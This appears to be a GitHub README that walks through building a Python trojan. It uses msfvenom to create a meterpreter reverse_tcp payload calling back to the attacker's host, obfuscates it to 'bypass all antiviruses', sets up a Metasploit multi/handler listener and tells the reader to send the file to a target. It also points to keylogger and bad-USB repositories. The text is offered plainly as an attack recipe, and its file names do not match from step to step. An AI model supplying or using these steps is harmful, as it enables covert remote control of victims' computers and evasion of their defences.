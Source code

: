 # Create python trojan with Metasploit and bypass all antiviruses (READ THIS AS CODE)

1 : Install python and metasploit or using kali linux

2 : Next install requreiments

3 : Create payload and obfuscation it 

4 : Build up listener with metasploit and send payload obfuscation to target 

# Requreiments 

pip install PyObfuscator

Optional : if you want you can change it to exe file after obfuscation it for doing this read it ( https://github.com/CharonDefalt/Bad-usb OR https://github.com/CharonDefalt/python-keylogger )

# Create payload

msfvenom -p python/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o payload.py

After that lets obfuscation it with below command :

PyObfuscator payload_5050.py

# Build listener

use multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST YOURIP
set lport YOURPORT
run

# Final Part
Now send this file ( payload_obfu.py ) to target


